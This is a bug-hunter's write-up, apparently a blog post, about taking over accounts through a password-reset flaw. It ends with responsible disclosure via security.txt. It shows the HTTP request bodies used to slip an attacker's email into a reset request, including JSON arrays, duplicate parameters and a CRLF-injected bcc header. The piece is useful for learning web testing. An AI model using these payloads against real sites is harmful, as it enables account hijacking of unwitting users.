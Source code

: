   ![Reset-Password](https://user-images.githubusercontent.com/106372696/171008056-dcd80d53-b8c0-4373-ab92-1a7d75615122.png)


Hi Everyone,

This is the story about how I managed to takeover some one account using password reset flaw on the website.While browsing the website I need to signin to the account but It was a long time ago since I logged into my account.so, I can't remember my password so I decided to reset my password, but suddendly I decide to play with password reset functionality if I can reset someone's account.
	
#### Attempt 1:
I intercept the traffic with Burpsuite and capture the request and saw something like this

```bash
POST /ResetPassword

...
...

{
	"email" : "something@email.com"
}

```
I changed the request body something like this

```bash
POST /ResetPassword

...
...

{
	"email" : "myemail1@email.com",
       "email" : "myemail2@email.com"
}
```

And of course its failed only reset token sent to myemail1 account not myemail2 account.

#### Never Give Up:
After that I tried some other methods like following

```bash
POST /ResetPassword

...
...

{
	"email" : "myeamil1@email.com%20myemail2@email.com"
}
```

```bash
POST /ResetPassword

...
...

{
	"email" : "myemail1@email.com%20cc:myemail2@email.com"
}
```

#### One Last Ride...
Ok, thats it I was ready to give up but I remember one blog post that I read, it mentioned you can use **JSON Table** That will help you to send set of elements in array so, I give it a try luckily It sent password reset link to my attacker account and I can able to reset victim's account.

![nofinal](https://user-images.githubusercontent.com/106372696/171010957-5694d6ff-aa51-434e-a6c4-8cd31e005200.png)


Then I decided to send the report to their security team, but they don't have VDP or RDP on any crowdsource platform like Hackerone or Bugcrowd.So, I search **security.txt**(RFC 9116) and find their security team email that tells me where I should report related to security issues. I sent my finds and they reward me through btc (they don't hall of fame :( ).

	Note: You can find security.txt by https://www.website.com/.well-known/security.txt
	
#### Other methods to check password related issues:
```bash
POST /ResetPassword

...
...

email=victim@email.com&email=attacker@email.com
```

```bash
POST /ResetPassword

...
...

email=victim@email.com%20email=attacker@email.com
```

```bash
POST /ResetPassword

... 
...

email=victim@email.com|email=attacker@email.com 
```

```bash
POST /ResetPassword 

... 
...

email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"  
```

I don't do bug bounties but this one I accidently try my luck and got success..Thanks for Reading this article. I hope you all enjoy this one. cheers :)

Usefull Resources :

[Password Reset Poisoning - Portswigger](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)

[10 Password Reset Flaws - AnugrahSR](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)

[All about Password Reset Vulnerablities - Infosec Writeups](https://infosecwriteups.com/all-about-password-reset-vulnerabilities-3bba86ffedc7?gi=5037f755d2b2)

